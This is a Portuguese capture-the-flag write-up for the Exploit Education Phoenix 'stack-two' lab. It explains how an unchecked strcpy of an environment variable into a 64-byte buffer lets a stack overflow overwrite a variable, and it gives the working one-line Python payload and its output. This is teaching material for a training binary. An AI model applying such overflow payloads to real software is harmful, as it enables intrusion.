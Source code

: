 Index
1. [🎯 Objetivo](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/3%20-%20Stack%20Two.md#-objetivo)
3. [💫 Explicação](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/3%20-%20Stack%20Two.md#-explicação)
4. [🔥 Solução](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/3%20-%20Stack%20Two.md#-solução)

# 🎯 Objetivo
Similar à anterior, a gente precisa mudar o valor da variavel changeme,
mas dessa vez ao inves de usar o input ou agrv, vamos usar env!

# 💫 Explicação
Nesse desafio, o programa usa getenv("ExploitEducation") para ler uma
enviroment variable. 
### 🌳 Environment Variable (Variável do ambiente)
Essas variaveis são acessiveis para todos os programas
executando naquela seção. E normalmente contem preferencias como cores, o tipo de terminal, etcetc....

> Você pode checa-las usando: $ env

> Você pode definir uma até o resto da seção: $ export Nome=Valor

> Você pode definir uma somente para execução daquele programa: $ Nome=Valor ./stack-two

Para nós, não faz tanta diferença. O unico problema é que não podemos usar o Null Byte (0x00), pois ele é usado para indicar o final de uma string ASCII, portanto terminando nossa variavel precocemente.

Em seguida, o valor é copiado para um buffer[64] usando: strcpy(buffer, ptr). Com ptr sendo o valor da env 'ExploitEducation'.

A função strcpy, assim como gets, não checa se o valor é maior que o buffer, tornando o programa vulnerável... :(

Por ultimo, o programa checa se changeme == 0x0d0a090a.
> Levando em consideração que o sistema é LE: 0a 09 0a 0d

Mas pera ai, checando o manual ASCII, esses caracteres são usados para encerrar linha, não é uma letra do teclado! D:

Pois é, então vamos precisar usar os bytes diretamente. Esse é um dos casos que o python3 reclama e o python2 funciona!

```
Se você quer tentar resolver sozinhe, agora é a sua hora!

.
.
.
.
.
.
.
.
.
.
.
.
.

user@phoenix-amd64:/opt/phoenix/amd64$ ExploitEducation=$(python -c "print b'A'*64 + b'\x0a\x09\x0a\x0d'") ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

Uhuuu, esse foi mais fácil :D

# 🔥 Solução
> $ ExploitEducation=$(python -c "print b'A'*64 + b'\x0a\x09\x0a\x0d'") ./stack-two
